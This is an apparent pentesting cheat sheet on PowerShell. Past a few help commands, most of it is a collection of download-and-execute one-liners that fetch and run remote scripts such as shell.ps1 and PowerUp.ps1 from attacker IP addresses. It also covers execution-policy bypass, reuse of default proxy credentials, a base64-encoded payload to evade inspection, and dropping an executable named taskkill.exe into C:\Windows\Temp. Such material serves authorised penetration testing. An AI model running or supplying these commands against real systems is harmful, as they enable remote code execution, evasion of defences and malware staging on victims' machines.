 # Basic PowerShell for Pentesters

## Default PowerShell locations

```text
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```

## Basic PS commands to start

```bash
Get-Help * #List everything loaded
Get-Help process #List everything containing "process"
Get-Help Get-Item -Full #Get full helpabout a topic
Get-Help Get-Item -Examples #List examples
Import-Module <modulepath>
Get-Command -Module <modulename>
```

## Download & Execute

```bash
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile - #From cmd download and execute
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
iex (iwr '10.10.14.9:8000/ipw.ps1') #From PSv3

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://10.10.14.9:8000/ipw.ps1',$false);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://10.10.14.9:8000/ipw.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd(
```

### Using b64 from linux

```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

## Download

### System.Net.WebClient

```text
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
```
